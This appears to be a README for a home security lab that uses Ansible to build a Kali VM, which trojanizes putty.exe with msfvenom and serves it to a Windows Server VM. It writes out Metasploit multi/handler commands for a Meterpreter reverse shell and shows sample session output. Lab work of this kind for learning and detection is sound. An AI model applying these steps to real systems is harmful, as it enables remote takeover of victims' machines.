

# DevSecOps With Ansible

An example on how Ansible can be used in a DevSecOps Workflow

## What is DevSecOps?

https://www.redhat.com/en/topics/devops/what-is-devsecops

## What is Ansible?

https://www.redhat.com/en/technologies/management/ansible/get-started

## Running in your environment

Prerequisites: You will need Ansible, Vagrant and VirtualBox installed on your workstation.

So after that just go to the "hack" directory and run the scrip: create_attacker_env.sh. This will create a virtual machine with Kali Linux and thus automate the malware infection of an executable "putty.exe" using "msfvenom". It will also make this malware available on the apache web server to be consumed via HTTP. 

After that in the "hack" directory run the ssh_attakcer.sh. This will ssh to the Kali Linux virtual machine. Finally open msfconsole and run the steps to "wait" for the malware to run on the Windows machine.

```
msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp
set lhost 10.0.0.190
set lport 1234
show options 
exploit 
```

Now run the create_target_env.sh script, this will create a Windows Server and configure Ansible. After that, the malware will be downloaded and will infect the Windows server.

At this point you will have access to the reverse shell on the Kali virtual machine and will be able to execute any command on the Windows Server.

The purpose of this lab is to show you how you can use Ansible to automate the creation, execution and detection of Malware and any kind of threats, whether in Windows or Linux environments. You can run "sysinfo" for example and you will see information related to Windows Server.

```
meterpreter > sysinfo
Computer        : TARGET
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
meterpreter > 
```

Ps: Soon I will add the Ansible roles for threat detection.




